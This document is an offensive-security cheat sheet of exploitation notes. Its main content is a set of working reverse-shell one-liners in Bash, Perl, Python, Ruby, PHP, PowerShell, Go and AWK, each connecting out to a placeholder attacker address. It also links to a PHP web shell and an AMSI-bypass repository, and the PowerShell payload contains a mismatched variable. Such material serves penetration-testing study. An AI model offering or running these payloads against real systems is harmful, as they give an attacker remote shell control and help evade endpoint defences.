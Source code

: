 Exploitation General Notes

# General Notes

## Pre-requisites for runninging exploits

- Check the version of the operating system.
- Check the software version.
- Check if there is exploit for it (Searchsploit, ExploitDB, Google, etc).
- If you have an exploit, is there a Metasploit Module for it?


## Default Credentials

- https://cirt.net/passwords
- https://github.com/danielmiessler/SecLists/tree/master/Passwords/Default-Credentials

## Reverse Shells

Bash: 

- bash -i >& /dev/tcp/IP ADDRESS/8080 0>&1

Perl:

```
perl -e 'use Socket;$i="IP ADDRESS";$p=PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Python: 

- python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP ADDRESS",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

IPv6: 

- python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::125c",4343,0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");' 

Ruby:

- ruby -rsocket -e'f=TCPSocket.open("IP ADDRESS",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
- ruby -rsocket -e 'exit if fork;c=TCPSocket.new("[IPADDR]","[PORT]");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'


PHP:

Pentest Monkey Reverse Shell for PHP:
In Kali: 

/usr/share/webshells/php/php-reverse-shell.php

Link: http://pentestmonkey.net/tools/web-shells/php-reverse-shell

- php -r '$sock=fsockopen("IP ADDRESS",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

Powershell: 

```
$callback = New-Object System.Net.Sockets.TCPClient("IP ADDRESS",53);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$callback.Close()
```

Golang: 

- echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","IP ADDRESS:8080");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go

AWK: 

- awk 'BEGIN {s = "/inet/tcp/0/IP ADDRESS/4242"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null


Other Reverse Shell: 
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md


## Other Resources 

- Amsi-Bypass-Powershell: https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell 





